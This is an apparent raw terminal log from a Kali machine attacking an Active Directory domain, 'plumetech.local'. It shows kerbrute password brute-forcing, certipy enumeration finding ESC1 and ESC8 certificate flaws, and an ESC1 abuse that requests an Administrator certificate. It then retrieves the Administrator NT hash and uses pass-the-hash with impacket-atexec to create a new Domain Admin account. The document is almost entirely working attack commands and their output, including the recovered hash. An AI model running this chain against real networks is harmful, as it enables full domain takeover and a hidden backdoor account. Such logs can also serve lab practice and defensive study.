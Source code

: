└─$ kerbrute bruteuser --dc 10.0.7.11 -d plumetech.local --delay 13000 2023-200_most_used_passwords.txt bethany

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/28/25 - Ronnie Flathers @ropnop

2025/03/28 15:53:44 >  Using KDC(s):
2025/03/28 15:53:44 >   10.0.7.11:88

2025/03/28 15:53:44 >  Delay set. Using single thread and delaying 13000ms between attempts

^C

┌──(kali㉿kali)-[~]
└─$ certipy-ad find -vulnerable -u evan@plumetech.local -p 'Abcd@123' -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Failed to resolve: PLUMETECH.LOCAL
[!] Failed to resolve: PLUMETECH.LOCAL
[-] Got error: invalid server address
[-] Use -debug to print a stacktrace

┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts

┌──(kali㉿kali)-[~]
└─$ certipy-ad find -vulnerable -u evan@plumetech.local -p 'Abcd@123' -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'PLUMETECH-DC1-CA' via CSRA
[!] Got error while trying to get CA configuration for 'PLUMETECH-DC1-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'PLUMETECH-DC1-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'PLUMETECH-DC1-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : PLUMETECH-DC1-CA
    DNS Name                            : DC1.PLUMETECH.LOCAL
    Certificate Subject                 : CN=PLUMETECH-DC1-CA, DC=PLUMETECH, DC=LOCAL
    Certificate Serial Number           : 116CE7383FB081B7498EE8F3439CBE84
    Certificate Validity Start          : 2025-03-27 01:26:17+00:00
    Certificate Validity End            : 2030-03-27 01:36:16+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : PLUMETECH.LOCAL\Administrators
      Access Rights
        ManageCertificates              : PLUMETECH.LOCAL\Administrators
                                          PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Enterprise Admins
        ManageCa                        : PLUMETECH.LOCAL\Administrators
                                          PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Enterprise Admins
        Enroll                          : PLUMETECH.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates
  0
    Template Name                       : Smartcard
    Display Name                        : Smartcard
    Certificate Authorities             : PLUMETECH-DC1-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : PLUMETECH.LOCAL\Domain Users
      Object Control Permissions
        Owner                           : PLUMETECH.LOCAL\Enterprise Admins
        Full Control Principals         : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Owner Principals          : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Dacl Principals           : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
        Write Property Principals       : PLUMETECH.LOCAL\Domain Admins
                                          PLUMETECH.LOCAL\Local System
                                          PLUMETECH.LOCAL\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'PLUMETECH.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

┌──(kali㉿kali)-[~]
└─$ enum4linux -u '' -p '' 10.0.7.11
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Mar 28 16:10:18 2025

 =========================================( Target Information )=========================================

Target ........... 10.0.7.11
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.0.7.11 )=============================


[E] Can't find workgroup/domain



 =====================================( Session Check on 10.0.7.11 )=====================================


[+] Server 10.0.7.11 allows sessions using username '', password ''


 ==================================( Getting domain SID for 10.0.7.11 )==================================

Domain Name: PLUMETECH
Domain Sid: S-1-5-21-1132163210-3804680402-240431838

[+] Host is part of a domain (not a workgroup)

enum4linux complete on Fri Mar 28 16:10:32 2025


┌──(kali㉿kali)-[~]
└─$ certipy-ad req -username evan@plumetech.local -password 'Abcd@123' -ca PLUMETECH-DC1-CA -target 10.0.7.11 -template Smartcard -upn Administrator@plumetech.local -sid 'S-1-5-21-1132163210-3804680402-240431838-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with UPN 'Administrator@plumetech.local'
[*] Certificate object SID is 'S-1-5-21-1132163210-3804680402-240431838-500'
[*] Saved certificate and private key to 'administrator.pfx'

┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.0.7.11
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@plumetech.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@plumetech.local': aad3b435b51404eeaad3b435b51404ee:1fd1d635bb86dedf13da89a01ab020b4

┌──(kali㉿kali)-[~]
└─$ impacket-atexec -hashes aad3b435b51404eeaad3b435b51404ee:1fd1d635bb86dedf13da89a01ab020b4 plumetech.local/administrator@10.0.7.11 'net user plumber TestGeslo123! /add /y'
impacket-atexec -hashes aad3b435b51404eeaad3b435b51404ee:1fd1d635bb86dedf13da89a01ab020b4 plumetech.local/administrator@10.0.7.11 'net group "Domain Admins" plumber /add /y'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \shzrxmnr
[*] Running task \shzrxmnr
[*] Deleting task \shzrxmnr
[*] Attempting to read ADMIN$\Temp\shzrxmnr.tmp
[*] Attempting to read ADMIN$\Temp\shzrxmnr.tmp
The command completed successfully.


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \zCtczZbB
[*] Running task \zCtczZbB
[*] Deleting task \zCtczZbB
[*] Attempting to read ADMIN$\Temp\zCtczZbB.tmp
[*] Attempting to read ADMIN$\Temp\zCtczZbB.tmp
The command completed successfully.
